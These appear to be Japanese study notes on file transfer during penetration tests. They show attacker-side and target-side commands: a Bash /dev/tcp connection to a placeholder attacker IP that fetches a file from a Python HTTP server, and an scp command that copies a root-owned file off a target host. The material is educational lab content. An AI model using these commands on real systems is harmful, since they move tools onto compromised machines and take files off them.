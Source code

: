 #### Bashでのダウンロード(/dev/tcp)
- 一般的なファイル転送ツールが利用できない状況もある
- Bash バージョン 2.04 以降がインストールされている限り (--enable-net-redirections でコンパイル)、組み込みの /dev/TCP デバイスファイルは簡単なファイルダウンロードに使える

##### 攻撃者側
wgetとcURLの攻撃者側と同じ
```sh
python3 -m http.server 8080
```
##### ターゲット側
- ターゲットWebサーバーに接続する
```shell-session
exec 3<>/dev/tcp/<攻撃者のIP>/8080
```

- HTTP GETリクエスト
```shell-session
echo -e "GET /<ファイル名> HTTP/1.1\r\nHost: <攻撃者のIP>\r\nConnection: close\r\n\r\n" >&3
```

-  ファイルデータをファイルに書き起こす
```sh
cat <&3 > <ファイル名>
```
- 補足 : ファイルの中身をただターミナルに標準出力するだけ
```shell-session
cat <&3
```

#### SSHダウンロード
- SSHにはデフォルトでSCPがついてるから、SCPを使うこともできる
- `SCP`（セキュアコピー）は、2つのホスト間でファイルとディレクトリを安全にコピーできるコマンド
- ローカルサーバーからリモートサーバーに、リモートサーバーからローカルマシンにファイルをコピーできる
##### 攻撃者側
ターゲット側でsshを立ち上げてから、scpでファイルダウンロード
```sh
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

| 部分                         | 説明                                                     |
| -------------------------- | ------------------------------------------------------ |
| `scp`                      | Secure Copy Protocol（SSHを利用した安全なファイル転送）                |
| `plaintext@192.168.49.128` | リモートサーバーのユーザー名 `plaintext` と IP アドレス `192.168.49.128`  |
| `/root/myroot.txt`         | リモートサーバー上のファイルのパス（この場合 `/root/` ディレクトリ内の `myroot.txt`） |
| `.`                        | ローカルのカレントディレクトリ（`.` = 現在の作業ディレクトリ）にファイルをダウンロード         |

##### ターゲット側
SSH サーバーの有効化
```shell-session
sudo systemctl enable ssh
```
